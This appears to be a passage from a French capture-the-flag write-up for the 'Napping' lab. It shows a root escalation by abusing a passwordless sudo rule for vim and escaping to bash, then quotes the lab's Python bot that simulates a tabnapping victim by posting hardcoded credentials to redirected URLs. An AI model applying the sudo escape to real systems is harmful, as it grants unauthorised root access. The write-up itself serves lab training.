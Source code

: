 On a un classique cas de lolbin. Sudo autorise l'exécution de */usr/bin/vim* (il faut donner le path en entier) en tant que root sans mot de passe. De là on utilisera la commande *:!bash* pour nous échapper de Vim et accéder à un shell.  

```plain

sudo /usr/bin/vim
(--snip exécution de bash via :!bash snip--)
root@napping:/home/adrian# id
uid=0(root) gid=0(root) groups=0(root)

root@napping:~# cat root.txt
Admins just can't stay awake tsk tsk tsk
```

Sous le capot
-------------

Voici le script Python qui se chargeait de simuler le tabnapping:  

```python
import requests
import re
import mysql.connector

mydb = mysql.connector.connect(
  host="localhost",
  user="adrian",
  password="P@sswr0d456",
  database="website"
)

mycursor = mydb.cursor()

mycursor.execute("SELECT * FROM links")

myresult = mycursor.fetchall()

data = {
        "username":"daniel",
        "password":"C@ughtm3napping123"
        }

for x in myresult:
  url1 = x[0]

  try:
    r1 = requests.get(url1,timeout=2)
    search = r1.text
    if (search.find('location.replace') != -1):
        match = re.findall("http(.*)\);",search)
        new_url = 'http' + match[0].rstrip(match[0][-1])
        r2 = requests.post(new_url,data=data,timeout=2)

    elif (search.find('opener.location') != -1):
        match = re.findall("http(.*);",search)
        new_url = 'http' + match[0].rstrip(match[0][-1])
        r2 = requests.post(new_url,data=data,timeout=2)

  except requests.exceptions.ReadTimeout:
    continue
```

